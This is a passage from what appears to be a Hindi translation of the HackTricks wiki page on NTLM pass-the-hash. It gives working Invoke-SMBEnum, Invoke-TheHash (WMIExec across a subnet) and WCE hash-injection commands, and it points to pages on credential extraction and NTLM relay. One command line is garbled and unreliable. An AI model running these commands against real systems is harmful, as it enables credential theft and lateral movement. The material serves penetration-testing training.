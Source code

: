 ```bash
Invoke-SMBEnum -Domain dollarcorp.moneycorp.local -Username svcadmin -Hash b38ff50264b74508085d82c69794a4d8 -Target dcorp-mgmt.dollarcorp.moneycorp.local -verbose
```
#### Invoke-TheHash

यह फ़ंक्शन **अन्य सभी का मिश्रण** है। आप **कई होस्ट** पास कर सकते हैं, **कुछ को बाहर** कर सकते हैं और आप जिस **विकल्प** का उपयोग करना चाहते हैं उसे **चुन सकते हैं** (_SMBExec, WMIExec, SMBClient, SMBEnum_)। यदि आप **SMBExec** और **WMIExec** में से **कोई भी** चुनते हैं लेकिन आप कोई _**Command**_ पैरामीटर नहीं देते हैं, तो यह बस **जांच करेगा** कि क्या आपके पास **पर्याप्त अनुमतियाँ** हैं।
```
Invoke-TheHash -Type WMIExec -Target 192.168.100.0/24 -TargetExclude 192.168.100.50 -Username Administ -ty    h F6F38B793DB6A94BA04A52F1D3EE92F0
```
### [Evil-WinRM Pass the Hash](../../network-services-pentesting/5985-5986-pentesting-winrm.md#using-evil-winrm)

### Windows Credentials Editor (WCE)

**प्रशासक के रूप में चलाने की आवश्यकता है**

यह उपकरण वही करेगा जो mimikatz (LSASS मेमोरी को संशोधित करना) करता है।
```
wce.exe -s <username>:<domain>:<hash_lm>:<hash_nt>
```
### मैनुअल विंडोज रिमोट निष्पादन उपयोगकर्ता नाम और पासवर्ड के साथ

{% content-ref url="../lateral-movement/" %}
[lateral-movement](../lateral-movement/)
{% endcontent-ref %}

## विंडोज होस्ट से क्रेडेंशियल निकालना

**विंडोज होस्ट से क्रेडेंशियल प्राप्त करने के बारे में अधिक जानकारी के लिए आपको** [**यह पृष्ठ पढ़ना चाहिए**](https://github.com/carlospolop/hacktricks/blob/master/windows-hardening/ntlm/broken-reference/README.md)**।**

## NTLM रिले और रिस्पॉन्डर

**इन हमलों को कैसे करना है, इस पर अधिक विस्तृत मार्गदर्शिका पढ़ें:**

{% content-ref url="../../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md" %}
[spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md](../../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md)
{% endcontent-ref %}

## नेटवर्क कैप्चर से NTLM चुनौतियों को पार्स करना

**आप उपयोग कर सकते हैं** [**https://github.com/mlgualtieri/NTLMRawUnHide**](https://github.com/mlgualtieri/NTLMRawUnHide)
